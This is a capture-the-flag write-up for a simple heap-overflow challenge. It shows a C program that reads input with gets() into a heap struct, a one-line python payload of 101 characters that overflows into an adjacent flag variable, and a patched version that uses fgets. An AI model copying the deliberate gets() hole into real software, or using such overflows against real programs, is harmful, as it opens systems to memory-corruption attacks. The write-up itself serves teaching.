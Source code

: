 Just saying this now, the exploit and exploitation process for this challenge is exactly the same as the 32 bit version of this challenge. 

Let's take a look at the source code...

```
#include <stdlib.h>
#include <stdio.h>

struct struct0 
{
  char buf0[100];
  int var0;
};

int main()
{
  struct struct0 *p0; 

  p0 = malloc(sizeof(struct struct0));
  printf("Insert text here...\n");
  p0->var0 = 0;
  gets(p0->buf0);
  
  if (p0->var0)
  {
    printf("Well aren't you the well rounded researcher. Level Cleared\n");
  }
}
```

So looking at this code, we see a vulnerabillity that is similar to pretty much every buf_ovf challenge. It uses a call to gets() to input data into p0->buf0. However unlike the buf_ovf challenges, we are dealing with the heap instad of typical stack memory. You can see that in the code, a structutre "struct0" is defined, and in main p0 is a structure that is allocated memory in the heap to hold an instance of the struct0 structure. However exploiting this will be similar to that of the buf_ovf challengeds (this time).

We see that in order to clear the level, we have to set p0->var0 equal to anything other than 0. We see that we have unlimited input to p0->buf0, which is stored right next to p0->var0. We should be able to write 101 characters to p0->buf0, and it will overflow into p0->var0. Let's try it (btw the reason why I can use 0, is because the ascii character 0 isn't actually interpreted as 0 in hex and decimal forms).

```
guyinatuxedo@tux:/Hackery/escape/heap_exp/h0$ python -c 'print "0"*101' | ./h0 
Insert text here...
Well aren't you the well rounded researcher. Level Cleared
```

Just like that, we pwned the binary. Now let's patch it just like a buf_ovf challenge.

```
guyinatuxedo@tux:/Hackery/escape/heap_exp/h0$ cat h0_secure.c
#include <stdlib.h>
#include <stdio.h>

struct struct0 
{
  char buf0[100];
  int var0;
};

int main()
{
  struct struct0 *p0; 

  p0 = malloc(sizeof(struct struct0));
  printf("Insert text here...\n");
  p0->var0 = 0;
  fgets(p0->buf0, sizeof(p0->buf0), stdin);
  
  if (p0->var0)
  {
    printf("Well aren't you the well rounded researcher. Level Cleared\n");
  }
}
guyinatuxedo@tux:/Hackery/escape/heap_exp/h0$ python -c 'print "0"*101' | ./h0_secure 
Insert text here...
guyinatuxedo@tux:/Hackery/escape/heap_exp/h0$ 
```

